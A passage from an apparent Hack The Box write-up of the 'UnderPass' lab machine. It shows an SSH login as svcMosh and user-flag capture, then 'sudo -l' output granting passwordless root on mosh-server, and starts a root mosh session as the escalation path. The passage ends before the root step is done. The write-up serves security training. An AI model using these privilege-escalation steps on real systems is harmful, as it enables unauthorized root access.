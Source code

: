 - We were able to successfully SSH into the machine using the `svcMosh` user credentials and capture the `user.txt` flag."

```bash
~/HTB/Machines/UnderPass  ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
...snip....
Last login: Mon Dec 23 07:21:33 2024 from 127.0.0.1
svcMosh@underpass:~$ id
uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)
svcMosh@underpass:~$ uname -a
Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
svcMosh@underpass:~$ cat user.txt
d9****************************46
```

### Privilege Escalation (Root)

- Running the `sudo -l` command reveals that the `svcMosh` user has permission to execute the `/usr/bin/mosh-server` binary as root.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

- When I ran the binary, it produced the following output. Consulting [ChatGPT](https://chatgpt.com/) didn’t provide much insight, so I decided to perform a quick search using the phrase 'MOSH CONNECT 60001.' This led me to a [medium blog post](https://medium.com/@sunjizu/ssh-in-another-way-when-tcp-is-blocked-6742d7eeb550) that explained how to connect to the `mosh-server` using `mosh-client` and a key. Reviewing `mosh-server` and `mosh-client` man pages, which mentioned that the `MOSH CONNECT` command needs to be executed within 60 seconds. These man pages also provided further details on how to establish the connection.

```bash
~/HTB/Machines/UnderPass  man mosh-server

 mosh-server binds to a high UDP port and chooses an encryption key to protect the session. It prints both on standard output, detaches from the terminal, and waits for
       the mosh-client to establish a connection. It will exit if no client has contacted it within 60 seconds.
```

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 LCLxlRp2Rd+KvgCkaCp04A

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 4081]
```
